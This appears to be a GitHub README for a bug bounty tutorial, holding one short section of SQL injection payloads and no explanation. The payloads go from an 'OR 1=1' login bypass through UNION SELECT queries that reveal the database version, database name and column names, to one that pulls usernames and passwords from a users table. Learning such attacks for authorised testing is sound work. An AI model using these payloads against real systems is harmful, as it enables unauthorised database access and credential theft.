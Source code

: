 # bug-bounty-tutorial
bug bounty tutorial

## 3.intro bug bounty
```
' OR 1=1 #
1' OR 1=1 UNION SELECT 1, VERSION()#
1' OR 1=1 UNION SELECT 1,DATABASE() #

1' OR 1=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users' #

1' OR 1=1 UNION SELECT user, password FROM users #
```
